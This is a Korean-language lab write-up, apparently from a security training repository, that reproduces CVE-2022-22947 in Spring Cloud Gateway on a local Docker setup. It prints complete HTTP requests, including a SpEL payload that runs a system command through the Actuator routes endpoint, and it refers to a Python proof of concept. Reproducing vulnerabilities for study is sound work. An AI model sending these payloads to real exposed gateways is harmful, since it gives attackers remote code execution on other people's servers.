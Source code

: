 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

**Contributors**

-   [박천웅(@CheonWoong-Park)](https://github.com/CheonWoong-Park)

Spring Cloud Gateway는 Spring WebFlux 위에 API Gateway를 구축하기 위한 라이브러리입니다.

3.1.0 및 3.0.6 이전 버전의 Spring Cloud Gateway를 사용하는 애플리케이션은 Gateway Actuator EndPoint를 사용하도록 설정되고 노출되며 보안이 해제된 경우 취약점이 발생합니다. 
원격 공격자는 악의적으로 조작된 요청을 수행하여 원격 호스트에서 임의의 원격 실행을 허용할 수 있습니다.

참고자료:

- <https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>
- <https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.md#spring-cloud-gateway-actuator-api-spel-code-injection-cve-2022-22947>

## 취약점 환경

먼저, Spring Cloud Gateway 3.1.0을 사용하는 서버를 구축 해야합니다.
아래 내용은 WSL2(Ubuntu)환경에서 실습하였습니다.

docker-compose.yml을 기반으로 도커 컨테이너를 구축합니다.

```
docker-compose up -d
```

서버가 시작되면, http://localhost:8080/ 으로 서버가 돌아갑니다.

## 취약점 실습

작성자는 포스트맨을 이용하였습니다.

1) spring cloud의 Andpoint 취약점을 공격하기 위해 라우터를 추가하는 SpEL식을 리퀘스트합니다.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

2) SpEL 표현식이 작성된 라우터가 서버에 추가 된 후, 게이트웨이를 새로고침 합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

3) 결과를 받아 오도록 GET메소드 리퀘스트를 보냅니다.

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

4) 그 후, 공격 라우터를 삭제합니다.

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

5) 다시 게이트웨이를 새로고침합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

## POC 작성

파이썬을 이용하여 위 단계들을 한번에 이룰 수 있도록 코드를 작성하였습니다.
poc.py() 참고

## POC 출력 결과 
```
python3 poc.py http://localhost:8080
```

![](5.png)
